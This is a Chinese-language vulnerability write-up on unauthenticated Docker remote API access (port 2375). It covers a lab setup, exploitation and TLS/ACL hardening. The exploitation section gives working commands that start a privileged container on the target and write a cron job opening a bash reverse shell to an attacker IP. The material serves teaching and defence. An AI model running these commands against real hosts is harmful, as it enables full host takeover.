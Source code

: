 # Docker未授权访问漏洞

## 漏洞描述

恶意攻击者可以在未经授权的情况下访问 Docker 服务器或容器。这可能导致敏感数据泄露，或允许攻击者执行未经授权的操作，如添加、修改或删除容器。

## 环境搭建

安装docker

```
yum install -y docker
```

修改`/usr/lib/systemd/system/docker.service`服务，启动API接口。

```
ExecStart=/usr/local/bin/dockerd -H tcp://0.0.0.0:2375 -H unix://var/run/docker.sock
```

![image-20220726104747298](../../.gitbook/assets/image-20220726104747298.png)

重启docker服务。

```
systemctl daemon-reload
systemctl restart docker
```

![image-20220726104829456](../../.gitbook/assets/image-20220726104829456.png)

## 漏洞复现

输入`ip:2375/version`就会列出基本信息，和docker version命令效果一样。

![image-20220726104904921](../../.gitbook/assets/image-20220726104904921.png)



**利用docker容器写定时任务反弹shell**

 我们可以利用未授权访问的docker remote api 开启一个容器并挂载至根目录，由此我们可以获得任意读写的权限，然后我们再将反弹shell命令写入定时任务crontab中，即可使宿主机反弹shell。

```
[root@localhost ~]# docker -H tcp://192.168.32.183:2375 run -it --user root --privileged -v /var/spool/cron/:/var/spool/cron/ alpine sh
```

写入定时计划

```
/ # echo '* * * * * bash -i >& /dev/tcp/192.168.32.130/8088 0>&1' >> /var/spool/cron/root
```

![image-20220726110359885](../../.gitbook/assets/image-20220726110359885.png)

## 安全加固

在不必需的情况下，不要启用docker的remote api服务，如果必须使用的话，可以采用如下的加固方式：

```basic
设置ACL，仅允许信任的来源IP连接；
设置TLS认证，官方的文档为Protect the Docker daemon socket
```

客户端与服务器端通讯的证书生成后，可以通过以下命令启动docker daemon：

```perl
docker -d --tlsverify --tlscacert=ca.pem --tlscert=server-cert.pem --tlskey=server-key.pem -H=tcp://10.10.10.10:2375 -H unix:///var/run/docker.sock
```

客户端连接时需要设置以下环境变量

```bash
export DOCKER_TLS_VERIFY=1
export DOCKER_CERT_PATH=~/.docker
export DOCKER_HOST=tcp://10.10.10.10:2375
export DOCKER_API_VERSION=1.12
```
